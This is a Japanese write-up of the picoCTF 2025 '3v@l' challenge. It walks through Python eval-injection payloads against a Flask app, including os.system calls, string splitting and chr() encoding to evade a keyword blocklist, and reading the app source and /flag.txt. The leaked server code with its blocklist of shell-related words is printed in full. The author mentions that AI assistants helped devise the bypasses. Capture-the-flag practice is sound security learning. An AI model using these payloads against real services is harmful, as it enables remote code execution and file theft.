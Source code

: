 # picoCTF2025　3v@l

## 概要
evalを使ったらjavascriptが実行できるのでいろいろ悪さをしようという感じ

## 解法
とりあえずlsする
```
__import__('os').system('ls -la')
```
結果、OSという単語、lsという単語が禁止ワードに含まれていた。
ついでにほぼflaskだろうということがわかった。

AIくんに頼んだらos使わない方法教えてくれた　がばい
```
__import__('o' + 's').system('echo *')
```
結果は以下のとおり
```
Result()
```
この世にファイルがないことがわかった。
ここで、フラグはソースコードに隠されていると考えて、ソースコードの露出を狙った。

```
__import__('o' + 's').system('grep "" app.py')
```
結果は以下の通り
```
Error: Detected forbidden keyword ''.
```
ダブルクォートもNGらしい

chr()でやる方法があるけど人力はめんどくさいのでgeminiにぶん投げる
```
open(chr(97)+chr(112)+chr(112)+chr(46)+chr(112)+chr(121)).read()
```

```python
from flask import Flask, request, render_template_string, render_template import re app = Flask(__name__) # Define blocklist keywords and regex for file paths BLOCKLIST_KEYWORDS = ['os', 'eval', 'exec', 'bind', 'connect', 'python','python3', 'socket', 'ls', 'cat', 'shell', 'bind'] FILE_PATH_REGEX = r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.' @app.route('/') def index(): return render_template('index.html/') @app.route('/execute', methods=['POST']) def execute(): code = request.form['code'] # Check for blocklist keywords in submitted code for keyword in BLOCKLIST_KEYWORDS: if keyword in code: return render_template('error.html', keyword=keyword) # Check for file path using regex if re.search(FILE_PATH_REGEX, code): return render_template('error.html') try: # Execute the Python code if no blocklist keyword or file path found result = eval(code) except Exception as e: result = f"Error: {str(e)}" return render_template('result.html', result=result) if __name__ == '__main__': app.run(debug=True, host="0.0.0.0", port=5000)
```
禁止ワードらしきものの羅列と禁止された記号がわかった。
がフラグは見えなかった。

ここでHintsを見ると、2番に
```
The flag file is /flag.txt
```
と記述があった。見逃し厳禁
```
open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read()
```
と送るとフラグを得れる。